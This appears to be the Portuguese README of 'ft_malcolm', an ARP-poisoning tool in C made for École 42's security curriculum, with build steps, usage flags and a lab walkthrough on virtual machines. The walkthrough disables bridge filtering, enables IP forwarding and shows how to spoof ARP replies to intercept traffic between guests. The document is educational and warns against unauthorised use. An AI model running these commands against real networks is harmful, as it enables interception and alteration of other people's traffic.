 # 42 Malcolm

![OS](https://img.shields.io/badge/OS-Linux-blue.svg)
![Language](https://img.shields.io/badge/Language-C-orange.svg)
![Status](https://img.shields.io/badge/Status-Pending_Evaluation-darkgrey.svg?logo=42)
[![Tests](https://github.com/vinicius507/ft_malcolm/actions/workflows/tests.yml/badge.svg)](https://github.com/vinicius507/ft_malcolm/actions/workflows/tests.yml)

[![en](https://img.shields.io/badge/Lang-en-red.svg)](./README.md)
[![pt-br](https://img.shields.io/badge/Lang-pt--br-green.svg)](./README.pt-br.md)

Uma ferramenta de ARP Poisoning escrita em C usando o padrão 99.

> [!WARNING]
>
> Esta aplicação realiza ARP spoofing, uma técnica de ataque que pode
> interromper a comunicação em uma rede. Utilizar ARP spoofing sem permissão é
> uma violação de políticas de segurança e pode ser ilegal. É crucial usar esta
> ferramenta apenas em ambientes controlados, como uma rede de laboratório
> pessoal, para fins educativos ou de teste.
>
> Esta ferramenta foi criada como parte do currículo de Segurança da École 42 e
> destina-se apenas a fins educativos. O autor não apoia nem encoraja o uso
> desta ferramenta para fins maliciosos.

## O que é ARP?

O Address Resolution Protocol é um protocolo da Camada 2 que mapeia endereços
de hardware, como um endereço MAC, para um endereço de protocolo da Camada 3,
como um endereço IPv4.

## Como funciona o ARP poisoning?

O protocolo ARP é um protocolo _stateless_, o que significa que os hosts da
rede armazenarão em cache automaticamente qualquer resposta ARP que receberem,
independentemente de ter sido solicitada ou não.

O ARP poisoning funciona enviando respostas ARP não solicitadas a um host,
associando um endereço de protocolo ao endereço de hardware do atacante.

## Uso

### Compilando a partir do código-fonte

**Requisitos:**

- Clang 12
- GNU Make
- [Minha biblioteca Libft](https://github.com/vinicius507/libft)

**Instruções:**

1. Clone o repositório do 42 Malcolm:

   ```bash
   git clone https://github.com/vinicius507/ft_malcolm.git

   ```

2. Clone o repositório da Libft:

   ```bash
   git clone https://github.com/vinicius507/libft.git
   ```

3. Navegue até o diretório do projeto:

   ```bash
   cd ft_malcolm
   ```

4. Compile a ferramenta:

   ```bash
   make LIBFT_DIR=../libft/libft -C ./ft_malcolm # Ajuste o caminho, se necessário
   ```

### Compilando com Nix

Se preferir usar Nix, você pode compilar a aplicação navegando até o diretório
do projeto e usando o seguinte comando:

```bash
nix build .#
```

Isso assume que você tem um ambiente Nix válido configurado. O processo de
compilação lidará automaticamente com o download e _linkagem_ das dependências.

### Executando a Aplicação

**Antes de executar:**

- Certifique-se de ter **permissão explícita** para executar esta ferramenta na
  rede alvo.
- Esteja ciente do impacto potencial do ARP poisoning na rede.

**Executando a ferramenta:**

> [!NOTE]
>
> É necessário ter privilégios de root para executar a aplicação.

```bash
./ft_malcolm [OPÇÃO...] IP_FONTE MAC_FONTE IP_ALVO MAC_ALVO
```

**Argumentos Posicionais:**

- `IP_FONTE`: O endereço IP a ser falsificado como fonte.
- `MAC_FONTE`: O endereço MAC a ser falsificado como fonte.
- `IP_ALVO`: O endereço IP do dispositivo alvo.
- `MAC_ALVO`: O endereço MAC do dispositivo alvo.

**Argumentos Opcionais:**

- `-g, --gratuitous`: Enviar um pacote ARP gratuito para broadcast
  (`FF:FF:FF:FF:FF:FF`).
- `-i, --interface`: A interface de rede a ser usada, se não especificada, a
  primeira interface disponível será utilizada.
- `-v, --verbose`: Ativar saída detalhada para informações do pacote.

**Exemplo:**

```bash
./ft_malcolm 192.168.122.67 AA:BB:CC:DD:EE:FF 192.168.122.206 00:11:22:33:44:55
```

## Ambiente de Testes

A aplicação foi testada em um ambiente virtualizado usando QEMU/KVM com a
seguinte configuração:

- **Sistema Operacional do Host (Atacante):** NixOS 24.11
- **Sistema Operacional do Guest 1:** Debian 12
- **Sistema Operacional do Guest 2:** Debian 12
- **Rede:** Rede em modo bridge com DHCP

Para que o ARP poisoning funcione, a rede em modo bridge deve ser configurada
para não filtrar pacotes usando o firewall do sistema host. Isso pode ser feito
executando os seguintes comandos como root no host:

```bash
ip link set dev BRIDGE type bridge nf_call_arptables 0
ip link set dev BRIDGE type bridge nf_call_iptables 0
```

Onde `BRIDGE` é o nome da interface de rede em modo bridge.

Se você quiser encaminhar pacotes do host entre os guests e a rede, pode
habilitar o encaminhamento de IPs executando:

```bash
sysctl -w net.ipv4.ip_forward=1
```

Para realizar o ataque, você pode executar a aplicação no host, falsificando o
endereço IP e MAC do guest como a fonte e o endereço IP e MAC do roteador como
o alvo.

Primeiro, envie um pacote ARP gratuito para interceptar todo o tráfego indo para
`GUEST_1`:

```bash
./ft_malcolm GUEST_1_IP ATTACKER_MAC --interface=BRIDGE --gratuitous
```

Depois, ouça os pacotes ARP de `GUEST_1` solicitando o endereço MAC de
`GUEST_2`:

```bash
./ft_malcolm GUEST_2_IP ATTACKER_MAC GUEST_1_IP GUEST_1_MAC --interface=BRIDGE
```

Verificar o cache ARP em `GUEST_1` deve mostrar o endereço MAC de `GUEST_2`
como o endereço MAC do atacante.

```bash
$ cat /proc/net/arp
Endereço IP      Tipo HW     Flags       Endereço HW          Máscara  Dispositivo
ATTACKER_IP      0x1         0x2         ATTACKER_MAC         *        BRIDGE
GUEST_2_IP       0x1         0x2         ATTACKER_MAC         *        BRIDGE
```

Isso irá interceptar todo o tráfego de `GUEST_1` para `GUEST_2`, permitindo que
você inspecione e modifique os pacotes conforme necessário.

